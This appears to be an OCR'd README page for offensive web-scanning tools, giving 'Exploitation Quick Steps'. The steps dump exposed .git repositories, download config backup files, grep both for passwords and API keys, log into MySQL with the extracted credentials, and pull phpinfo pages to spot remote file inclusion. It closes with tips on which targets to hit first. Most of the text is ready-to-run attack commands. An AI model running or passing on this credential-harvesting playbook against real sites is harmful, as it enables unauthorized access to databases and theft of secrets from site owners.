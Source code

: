 ## Exploitation Quick Steps

### Git Repository
```bash
# 1. Find
./webseek.py --git target.com

# 2. Download
git-dumper http://target/.git/ source/

# 3. Extract creds
cd source && grep -r "password\|api_key"

# 4. Test
./dbseek.py -u found_user -p found_pass target.com
```

### Backup Files
```bash
# 1. Find
./webseek.py --backup target.com

# 2. Download
wget http://target.com/config.php.bak

# 3. Extract
cat config.php.bak | grep -A3 -B3 "password"

# 4. Use
mysql -h target.com -u extracted_user -p
```

### PHPInfo Page
```bash
# 1. Find
./webseek.py --info target.com

# 2. Review
curl http://target.com/phpinfo.php > phpinfo.html

# 3. Check for vulns
grep "allow_url_include\|disable_functions" phpinfo.html

# 4. Exploit
# If allow_url_include=On → RFI vulnerability
```

## Tips & Tricks

### 🎯 Targeting
- **Git first**: Highest value, fastest scan
- **Backups second**: Easy source code access
- **Full scan last**: Most comprehensive but slower
- **Focus on custom apps**: Higher vuln probability
